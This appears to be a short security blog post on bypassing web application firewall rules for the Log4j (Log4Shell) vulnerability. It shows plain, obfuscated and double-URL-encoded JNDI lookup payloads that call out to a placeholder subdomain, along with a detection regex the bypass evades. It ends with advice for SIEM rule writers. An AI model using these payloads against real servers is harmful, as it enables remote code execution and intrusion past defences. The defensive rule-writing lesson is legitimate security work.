 # Example Log4j Waf Bypass for team Red and Blue


As everyone knows, many tools and payloads have been developed on the Log4j vulnerability. Some security companies have developed rules related to this, and Waf companies have taken measures to secure the patching process and for this future vulnerability.

While testing a bub vulnerability in my vulnerability research process, I was blocked by waf.

* For example, there are 2 payloads below

```javascript
${jndi:ldap://SUBDOMAIN/a}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://SUBDOMAIN/a}
```

![enter image description here](https://raw.githubusercontent.com/azizaltuntas/azizaltuntas.github.io/master/_posts/log4j/2.png)

```javascript
(\$|%24)(\{|%7B).*[jJ].*[nN].*[dD].*[iI].*(:|%3A).+
```

As you can see, one is normal and the other is designed to bypass waf. An example regex for this vulnerability is as follows, and the team that creates many rules presumably creates rules according to this regex. The attack is prevented regardless of upper and lower case letters.

When the "jndi" keyword is next to each other or whatever character is in between, it matches it.

![enter image description here](https://raw.githubusercontent.com/azizaltuntas/azizaltuntas.github.io/master/_posts/log4j/1.png)

As we can see when we enter the payload, we get the 403 error.

![enter image description here](https://raw.githubusercontent.com/azizaltuntas/azizaltuntas.github.io/master/_posts/log4j/3.png)

So what happens when we double-encode any letter for "jndi"? So what happens when we double-encode any letter for "jndi"?


![enter image description here](https://raw.githubusercontent.com/azizaltuntas/azizaltuntas.github.io/master/_posts/log4j/4.png)


As you can see, we did not encounter any errors and we received the necessary response.

![enter image description here](https://raw.githubusercontent.com/azizaltuntas/azizaltuntas.github.io/master/_posts/log4j/5.png)

Payload;

```javascript
${${::-j}${::-n}${::-%2564}${::-i}:${::-d}${::-n}${::-s}://log4jbypass.SUBDOMAIN/}
```

In SIEM solutions such as Splunk, attention should be paid to such situations when writing regex, and rules must be written in normal url-encode and double-encode.
